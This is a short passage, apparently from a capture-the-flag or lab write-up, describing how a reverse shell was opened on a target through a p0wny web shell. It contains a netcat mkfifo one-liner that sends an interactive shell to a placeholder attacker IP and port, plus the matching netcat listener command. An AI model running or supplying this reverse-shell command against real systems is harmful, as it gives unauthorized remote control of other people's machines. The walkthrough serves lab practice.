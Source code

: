 I used the `nc mkfifo` rev shell

{% code overflow="wrap" %}
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ATTACKER_IP> <ATTACKER_PORT> >/tmp/f
```
{% endcode %}

Change the ip and port to your machine's one and before sending the line in the p0wny shell, setup  a netcat listener on your machine on the port you have chosen

```
nc -lvnp <ATTACKER_PORT>
```

<figure><img src=".gitbook/assets/image (33) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (34) (1).png" alt=""><figcaption></figcaption></figure>

#### We now have access to a reverse shell in the machine.
